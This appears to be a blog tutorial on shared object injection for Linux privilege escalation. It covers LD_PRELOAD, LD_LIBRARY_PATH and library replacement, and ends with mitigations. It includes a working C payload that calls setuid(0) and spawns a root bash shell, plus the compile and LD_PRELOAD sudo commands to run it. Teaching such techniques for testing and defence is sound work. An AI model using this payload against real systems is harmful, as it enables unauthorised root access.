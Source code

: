 ```yaml
---
title: "Shared Object Injection"
description: 
date: 2025-01-26T13:50:55Z
image: 
math: 
license: 
hidden: false
comments: true
draft: false
---
```


### **Shared Object Injection for Privilege Escalation**

**Shared Object (SO) injection** is a technique where an attacker forces a process to load a malicious shared library (.so file) into its memory. When executed, the malicious code in the library runs with the privileges of the target process, potentially leading to privilege escalation if the process has higher privileges (e.g., root).

---

### **How Shared Object Injection Works**

1. **Shared Libraries in Linux**:
    
    - Linux dynamically links shared libraries (`.so` files) at runtime.
    - Applications specify required libraries in their code, and the system's **dynamic linker** loads them when the application starts.
    
1. **Manipulating Library Loading**:
    
    - Attackers can exploit library loading mechanisms, such as modifying environment variables (`LD_PRELOAD`, `LD_LIBRARY_PATH`), or targeting programs that improperly handle library paths.
    
1. **Privilege Escalation**:
    
    - If an attacker can make a root-owned process load their malicious `.so` file, they can execute arbitrary code as root.

---

### **Techniques for Shared Object Injection**

#### 1. **Using `LD_PRELOAD`**:

- The `LD_PRELOAD` environment variable allows users to specify additional shared libraries to be loaded before any others.
- Exploit scenario:
    - A program with `sudo` permissions does not sanitize environment variables.
    - The attacker sets `LD_PRELOAD` to point to their malicious `.so` file.
- Example:
    
    ```bash
    echo 'void _init() { setuid(0); system("/bin/bash"); }' > exploit.c
    gcc -shared -fPIC -o exploit.so exploit.c
    LD_PRELOAD=./exploit.so sudo some-command
    ```
    

#### 2. **Hijacking `LD_LIBRARY_PATH`**:

- `LD_LIBRARY_PATH` specifies directories for the linker to search for shared libraries.
- Exploit scenario:
    - The attacker modifies `LD_LIBRARY_PATH` to include a directory containing malicious libraries.
- Example:
    
    ```bash
    export LD_LIBRARY_PATH=/tmp/malicious:$LD_LIBRARY_PATH
    sudo some-command
    ```
    

#### 3. **Replacing Legitimate Libraries**:

- Replace a shared library on the system with a malicious one.
- Exploit scenario:
    - Insufficient file permissions allow an attacker to overwrite a `.so` file used by a privileged program.

#### 4. **Dynamic Linking Exploits**:

- Exploit applications that dynamically load libraries during execution using functions like `dlopen()` or `dlsym()`.

---

### **Example: Privilege Escalation Using LD_PRELOAD**

1. **Create a Malicious Shared Object**:
    
    ```c
    #include <stdio.h>
    #include <stdlib.h>
    void _init() {
        setuid(0);  // Set the UID to root
        system("/bin/bash");  // Spawn a root shell
    }
    ```
    
    Save this as `exploit.c` and compile:
    
    ```bash
    gcc -fPIC -shared -o exploit.so exploit.c
    ```
    
2. **Set LD_PRELOAD**:
    
    ```bash
    LD_PRELOAD=/path/to/exploit.so sudo some-command
    ```
    
3. **Result**: A root shell is spawned if the target process is vulnerable.
    

---

### **Mitigations Against SO Injection**

1. **Disable `LD_PRELOAD` for SUID Programs**:
    
    - Modern Linux systems ignore `LD_PRELOAD` for SUID binaries to prevent this type of attack.
2. **Restrict `LD_LIBRARY_PATH`**:
    
    - Limit the use of custom library paths in privileged programs.
3. **Secure File Permissions**:
    
    - Ensure shared libraries are owned by root and are not writable by unprivileged users.
4. **Use Static Linking**:
    
    - For critical programs, avoid dynamic linking altogether.
5. **Audit Programs**:
    
    - Identify and fix applications that dynamically load libraries without proper checks.
